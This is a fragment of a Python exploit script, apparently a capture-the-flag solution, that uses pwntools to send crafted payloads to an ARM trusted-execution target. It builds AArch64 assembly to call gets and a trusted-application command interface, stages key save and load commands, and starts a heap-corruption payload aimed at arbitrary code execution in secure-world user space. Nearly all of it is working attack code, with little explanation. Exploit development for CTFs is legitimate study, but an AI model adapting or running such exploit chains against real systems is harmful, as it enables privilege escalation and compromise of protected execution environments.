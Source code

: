```python
    pl += p64(EL0_SFP_IN_RUN - 0x30)
    save_key(1, pl)
    pl = p64(EL0_STACK_LOW + 0x100)
    pl += p64(EL0_BUF + 0x120)
    p.sendline(pl)


def sel0_arbitrary_code_execute(
    sel0_assem: str | bytes, el0_assem: str = ""
) -> None:
    SEL_WSM_ADDR = 0x2400000 - 0x2000
    TCI_BUF = 0x7FFEFFFFE000
    TCI_HANDLE = 0x23FE000

    def tc_tci_call(cmd: int, index: int, size: int, data: bytes) -> str:
        assert b"\n" not in data

        assem = f"""
        movz x1, #{hex(elf.symbols['gets'] & 0xFFFF)};\n
        movk x1, #{hex((elf.symbols['gets'] >> 16) & 0xFFFF)}, LSL #16;\n
        add x0, x28, #0x0C;\n
        blr x1;\n
        
        movz x0, #{hex(cmd)};\n
        str w0, [x28, #0];\n
        
        movz x0, #{hex(index)};\n
        str w0, [x28, #4];\n
        
        movz x0, #{hex(size&0xFFFF)};\n
        """
        if size > 0xFFFF:
            assem += f"""
            movk x0, #{hex(size>>16)}, LSL #16;\n
            """
        assem += f"""
        str w0, [x28, #8];\n
        
        movz x3, #{hex(elf.symbols['tc_tci_call'] & 0xFFFF)};\n
        movk x3, #{hex((elf.symbols['tc_tci_call'] >> 16) & 0xFFFF)}, LSL #16;\n
        movz x0, #{hex(TCI_HANDLE&0xFFFF)};\n
        movk x0, #{hex(TCI_HANDLE>>16)}, LSL #16;\n
        blr x3;\n
        """

        tc_tci_call.data += data + b"\n"
        return assem

    def tc_tci_call_flush() -> None:
        p.send(tc_tci_call.data)

    tc_tci_call.data = b""

    def asm_load_key(index: int) -> str:
        return tc_tci_call(2, index, 0, b"")

    def asm_save_key(index: int, size: int, data: bytes) -> str:
        return tc_tci_call(3, index, size, data)

    pl = b""
    pl += b"a" * 0x18

    pl += p32(0x20)  # prev_size
```